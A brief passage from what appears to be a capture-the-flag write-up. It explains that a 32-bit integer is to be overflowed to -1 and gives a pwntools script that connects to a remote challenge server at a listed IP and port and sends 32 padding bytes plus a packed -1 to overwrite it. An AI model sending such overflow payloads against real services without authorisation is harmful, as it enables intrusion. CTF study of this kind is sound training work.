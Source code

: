 The decompilation output suggested that we want to overflow one 32-bit integer to have the value `-1`.

```py
from pwn import *

r = remote("20.169.252.240", 4000)

r.recvline()
r.recvuntil(b": ")

with context.local(signed=True):
    r.sendline(b"a" * 32 + p32(-1))

print(r.recvall())
```

